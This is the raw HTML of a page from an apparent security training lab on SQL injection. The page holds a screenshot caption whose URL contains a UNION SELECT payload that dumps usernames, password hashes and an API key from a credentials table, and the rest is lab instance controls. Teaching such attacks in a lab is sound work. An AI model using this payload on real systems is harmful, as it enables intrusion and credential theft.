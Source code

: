 <img alt="Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entries include admin, dev_admin, api_key, with corresponding Port City values as hashes and Port Volume 4" class="website-screenshot" data-url="http://SERVER_IP:PORT/search.php?port_code=cn' UNION select 1, username, password, 4 from dev.credentials-- -" src="/storage/modules/33/ports_credentials_1.png"/>
<p>We were able to get all the entries in the <code>credentials</code> table, which contains sensitive information such as password hashes and an API key.</p>

<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m
                        </button>
<button class="extendInstanceBtn extendInstanceBtnClicker btn btn-light btn-sm" data-title="Extend Life" data-toggle="tooltip" style="display:none;"><i class="fa fa-plus text-success"></i></button>
</div>
</div>
<div class="col-7 justify-end pt-2 pr-2 font-size-small text-right" id="statusText">Waiting to
                    start...
                </div>
</div>
<div class="d-inline-block mb-2 solutionSettings solutionSettingsOffsets" id="solutionsModuleSetting">
<div class="border border-secondary p-2 rounded">
<div class="custom-control custom-switch d-flex">
<input class="custom-control-input" disabled="" id="showSolutionsModuleSetting" type="checkbox"/>